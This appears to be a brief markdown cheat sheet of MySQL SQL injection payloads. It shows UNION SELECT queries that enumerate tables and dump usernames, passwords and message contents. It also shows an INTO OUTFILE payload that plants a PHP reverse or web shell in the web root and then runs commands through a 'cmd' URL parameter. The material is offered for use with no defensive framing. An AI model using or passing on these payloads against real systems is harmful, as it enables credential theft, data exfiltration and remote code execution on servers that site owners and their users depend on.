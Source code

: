 # uploading File with Mysql
1.`<VALUE>' union select 1, @@version-- -`
2.`<VALUE>' union select 1, table_name FROM information_schema.tables-- -`

> uploading:
```<VALUE>' INTO OUTFILE '/var/www/html/shell.php' LINES TERMINATED BY <Sting to Text"php rev shell">#```

> then go to http://example.com/shell.php?cmd=`<exec>`

#List For Extract Data

1: 
```
12 union select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema = database()
```
2: 
```
12 union select 1,group_concat(username,password),3,4 from users   // select what u see in Data //
```
3: 
```
12 union select 1,group_concat(message_content),3,4 from messages    
```
